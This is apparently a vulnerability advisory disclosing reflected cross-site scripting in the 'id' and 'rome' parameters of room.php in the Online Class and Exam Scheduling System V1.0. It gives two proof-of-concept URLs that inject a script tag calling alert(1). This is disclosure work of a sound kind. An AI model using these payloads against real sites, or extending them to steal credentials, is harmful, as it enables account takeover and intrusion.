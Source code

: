 # NAME OF AFFECTED PRODUCT(S)

Online Class and Exam Scheduling System

# VERSION(S)

V1.0

# submitter

lvzhouhang

# Vulnerable File

/pages/room.php

Prerequisite: You need to log in first

# Software Link

https://download.code-projects.org/details/93487762-3e23-48ab-a56f-af5e61441ee1

# Vulnerability Type

Cross Site Scripting

in /pages/room.php   `id` and  `rome` Parameters have Cross Site Scripting(XSS)

A malicious attacker can use this vulnerability to obtain administrator login credentials or phishing websites

# POC

~~~
pages/room.php?id="><script>alert(1)</script><c"
~~~

~~~
pages/room.php?rome="><script>alert(1)</script><c"
~~~

